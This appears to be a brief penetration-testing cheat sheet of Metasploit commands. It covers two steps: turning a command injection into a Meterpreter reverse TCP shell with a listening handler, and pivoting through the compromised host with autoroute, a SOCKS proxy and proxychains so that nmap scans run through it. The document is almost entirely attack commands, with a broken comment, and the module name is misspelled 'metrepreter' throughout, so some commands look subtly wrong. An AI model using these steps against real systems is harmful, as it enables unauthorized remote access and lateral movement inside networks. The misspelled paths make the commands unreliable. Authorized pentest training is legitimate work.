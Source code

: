 
# Command Injection -> Metrepreter
```bash
msfconsole
use payload/cmd/linux/x64/metrepreter/reverse_tcp
set LHOST <local IP/interface>
generate -f raw
# Starts handler to 
to_handler
```


# nmap Scan through compromised host
```bash
# Prereq: Have metrepreter session
# Setup route through host
use post/multi/manage/autoroute
set SESSION <session id>
set NETMASK <255.0.0.0 or CIDR>
set SUBNET <ip>
run
# To see defined routes
route

# Setup SOCKS proxy
use auxiliary/server/socks_proxy
run -j
# SOCKSv5 running on 1080

# On attacker host
sudo nano /etc/proxychains.conf
# add "socks5 127.0.0.1 1080" to the last line

```